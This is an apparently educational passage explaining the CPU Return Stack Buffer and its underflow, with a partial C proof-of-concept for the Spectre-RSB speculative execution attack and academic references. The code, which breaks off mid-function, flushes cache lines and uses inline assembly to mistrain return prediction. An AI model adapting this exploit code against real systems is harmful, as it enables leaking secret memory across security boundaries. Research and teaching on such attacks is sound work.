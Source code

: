 Call and return instructions are always executed in pairs. Dedicated to a logical core in case of hyperthreading, the **Return Stack Buffer (RSB)**{: style="color: red"} is a fixed-size buffer that provides predictions for <code>ret</code> instructions. When the CPU executes a call instruction, a new entry (the address of the next instruction) is added to the RSB and the top pointer is incremented; when the CPU executes a return instruction, the value is taken from the RSB, the top pointer is decremented, and the read value is used for return address prediction. Consider a RSB that can hold $16$ entries. It must drop the oldest entries if a call chain goes deeper than that. As this deep call chain returns, it has actually executed more <code>ret</code> instructions than the number of entries in the RSB and the RSB has underflowed[^13].

Here is a simple proof-of-concept (PoC) implementation of [Koruyeh et al. (2018)](https://dl.acm.org/doi/10.5555/3307423.3307426)[^14]:
```c
/* spectre-rsb.c */
#include <stdio.h>
#ifdef _MSC_VER
#include <intrin.h>         /* For rdtscp and clflush */
#pragma optimize("gt", on)
#else
#include <x86intrin.h>      /* For rdtscp and clflush */
#endif

uint8_t array[256 * 512];
uint8_t hit[8];
uint8_t temp = 0;

char *secret = "On the bonnie, bonnie banks of Loch Lomond.";

void flushSideChannel()
{
    int i;

    for (i = 0; i < 256; i++) {
        array[i * 512] = 1;
    }

    for (i = 0; i < 256; i++) {
       _mm_clflush(&array[i * 512]);
    }
}

/* Serves two purposes: (1) the return address is pushed to the RSB
 * and (2) create a mismatch between the RSB and the software stack. */
void spectreGadget()
{
    asm volatile(
        "push       %rbp        \n"
        "mov        %rsp,%rbp   \n"
        "pop        %rdi        \n"     /* removes frame/return address */
        "pop        %rdi        \n"     /* from stack stopping at */
        "pop        %rdi        \n"     /* next return address*/
        "nop                    \n"
        "mov        %rbp,%rsp   \n"
        "pop        %rbp        \n"
        "clflush    (%rsp)      \n"     /* flushing creates a large speculative window */
        "leaveq                 \n"
        "retq                   \n"     /* triggers speculative return to s = *ptr */
    );
}

void spectreAttack(char *ptr)
{
    uint8_t s;

```

[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.